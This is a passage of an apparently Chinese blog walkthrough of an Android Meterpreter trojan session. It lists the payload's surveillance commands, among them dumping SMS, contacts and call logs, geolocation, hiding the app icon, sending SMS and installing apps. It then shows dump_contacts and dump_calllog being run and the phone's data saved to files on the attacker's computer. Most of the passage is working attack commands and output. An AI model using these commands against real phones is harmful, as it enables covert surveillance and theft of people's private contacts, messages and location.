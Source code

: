 ```

    Command           Description
    -------           -----------
    activity_start    Start an Android activity from a Uri string
    check_root        Check if device is rooted
    dump_calllog      Get call log
    dump_contacts     Get contacts list
    dump_sms          Get sms messages
    geolocate         Get current lat-long using geolocation
    hide_app_icon     Hide the app icon from the launcher
    interval_collect  Manage interval collection capabilities
    send_sms          Sends SMS from target session
    set_audio_mode    Set Ringer Mode
    sqlite_query      Query a SQLite database from storage
    wakelock          Enable/Disable Wakelock
    wlan_geolocate    Get current lat-long using WLAN information


Application Controller Commands
===============================

    Command        Description
    -------        -----------
    app_install    Request to install apk file
    app_list       List installed apps in the device
    app_run        Start Main Activty for package name
    app_uninstall  Request to uninstall application

meterpreter >
```



### 体验

##### 获取手机通讯录


```
meterpreter > dump_contacts
[*] Fetching 2 contacts into list
[*] Contacts list saved to: contacts_dump_20200917195142.txt
meterpreter >
```
在电脑目录多了一个contacts_dump_20200917195142.txt的文件，打开如图所示
![image](http://lbz-blog.test.upcdn.net/post/%E6%9C%A8%E9%A9%AC-%E9%80%9A%E8%AE%AF%E5%BD%95)


##### 获取手机通话记录

```
meterpreter > dump_calllog
[*] Fetching 9 entries
[*] Call log saved to calllog_dump_20200917195408.txt
meterpreter >
```
在电脑目录多了一个calllog_dump_20200917195408.txt的文件，打开如图所示
![image](http://lbz-blog.test.upcdn.net/post/%E6%9C%A8%E9%A9%AC-%E8%81%8A%E5%A4%A9%E8%AE%B0%E5%BD%95)

